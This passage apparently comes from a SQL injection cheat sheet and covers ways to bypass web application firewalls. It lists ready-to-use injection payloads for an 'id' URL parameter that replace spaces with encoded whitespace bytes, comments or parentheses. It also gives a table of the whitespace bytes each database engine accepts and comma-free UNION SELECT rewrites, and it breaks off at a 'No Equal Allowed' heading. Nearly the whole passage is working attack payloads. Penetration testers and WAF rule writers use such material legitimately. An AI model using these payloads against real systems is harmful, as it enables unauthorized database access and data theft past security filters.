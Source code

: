 ## Generic WAF Bypass

### White spaces alternatives

- No space allowed (`%20`) - bypass using whitespace alternatives
  ```sql
  ?id=1%09and%091=1%09--
  ?id=1%0Dand%0D1=1%0D--
  ?id=1%0Cand%0C1=1%0C--
  ?id=1%0Band%0B1=1%0B--
  ?id=1%0Aand%0A1=1%0A--
  ?id=1%A0and%A01=1%A0--
  ```
- No whitespace - bypass using comments
  ```sql
  ?id=1/*comment*/and/**/1=1/**/--
  ```
- No Whitespace - bypass using parenthesis
  ```sql
  ?id=(1)and(1)=(1)--
  ```
- Whitespace alternatives by DBMS
  ```sql
  -- Example of query where spaces were replaced by ascii characters above 0x80
  ♀SELECT§*⌂FROM☺users♫WHERE♂1☼=¶1‼
  ```

| DBMS       | ASCII characters in hexadicimal                                                                                                                                        |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SQLite3    | 0A, 0D, 0C, 09, 20                                                                                                                                                     |
| MySQL 5    | 09, 0A, 0B, 0C, 0D, A0, 20                                                                                                                                             |
| MySQL 3    | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20                                                                                                                                                     |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20                                                                                                                                                 |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20                                         |

### No Comma Allowed

Bypass using OFFSET, FROM and JOIN

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### No Equal Allowed
